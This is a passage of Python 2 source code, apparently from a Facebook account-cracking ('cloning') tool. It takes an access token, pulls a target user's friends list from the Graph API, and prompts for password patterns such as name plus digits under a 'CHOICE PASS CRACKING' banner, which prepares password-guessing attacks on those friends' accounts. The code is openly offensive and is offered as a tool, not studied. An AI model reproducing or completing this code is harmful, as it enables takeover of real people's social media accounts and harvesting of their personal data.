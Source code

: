         try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '2':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     CHOICE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()
 